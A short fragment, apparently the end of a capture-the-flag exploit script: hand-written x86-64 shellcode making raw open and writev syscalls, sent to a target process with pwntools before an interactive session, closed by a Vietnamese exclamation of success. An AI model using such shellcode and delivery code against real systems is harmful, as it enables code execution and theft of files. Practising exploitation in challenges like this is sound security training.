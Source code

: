 ```python
        mov r10,2
        mov r9,0
        syscall

        mov r10,rax
        mov r9,0x100
        push r9
        push r10
        mov rdx,1
        mov rdi,0x3e9
        mov rsi,rsp
        mov rax,0x14
        syscall
         ''')
input()
p.sendline(sc)
p.interactive()
```

lụm =)) 